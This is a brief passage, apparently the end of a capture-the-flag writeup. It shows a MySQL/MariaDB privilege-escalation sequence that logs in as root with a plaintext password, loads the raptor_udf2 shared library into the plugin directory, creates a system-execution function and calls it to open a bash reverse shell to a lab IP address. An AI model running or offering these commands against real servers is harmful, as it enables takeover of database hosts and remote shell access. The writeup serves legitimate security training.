```bash
mysql -u root -p'Nildogg36'

use mysql;

create table foo(line blob);

insert into foo values(load_file('/tmp/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';

create function sys_exec returns integer soname 'raptor_udf2.so';

select * from mysql.func;

select do_system('bash -i >& /dev/tcp/10.10.14.106/1338');

show variables like '%plugin%';

```

That was it! See you in the next writeup.

